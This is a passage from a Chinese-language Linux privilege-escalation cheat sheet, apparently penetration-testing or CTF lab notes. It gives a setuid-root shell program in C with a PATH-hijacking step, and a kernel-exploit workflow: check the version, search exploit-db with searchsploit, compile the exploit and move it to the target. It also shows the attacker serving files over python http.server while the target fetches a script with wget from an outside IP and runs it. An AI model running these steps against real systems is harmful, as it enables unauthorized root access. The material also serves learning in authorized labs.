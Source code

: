 ```c
int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
```Shell
gcc exp.c -o "command_name"
rm exp.c
export PATH=/tmp/exp:$PATH
which "command_name"
```


### 内核漏洞提权
查看系统版本
```Shell
uname -a

lsb_release -a
```
搜索漏洞
```Shell
searchsploit Linux 3.13

searchsploit linux kernel ubuntu 16.04
```
查看漏洞利用脚本
可能需要修改源码
编译漏洞利用代码
```Shell
gcc 43418.c -o exploit
```
传输到靶机上
有时需要额外传输共享库
执行二进制文件即可

### 自动搜索Linux漏洞
[linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
```Shell
cd /usr/share/linux-exploit-suggester
python3 -m http.server 7331

wget http://192.168.1.26:7331/linux-exploit-suggester.sh
/bin/bash linux-exploit-suggester.sh
# 关注输出中可能性较大的 Exposure: highly probable

searchsploit -p xxxx
# Path: /usr/share/exploitdb/exploits/linux/local/xxxx.c
cp /usr/share/exploitdb/exploits/linux/local/xxx.c .
gcc xxxx.c -o exp
python3 -m http.server 7331
```

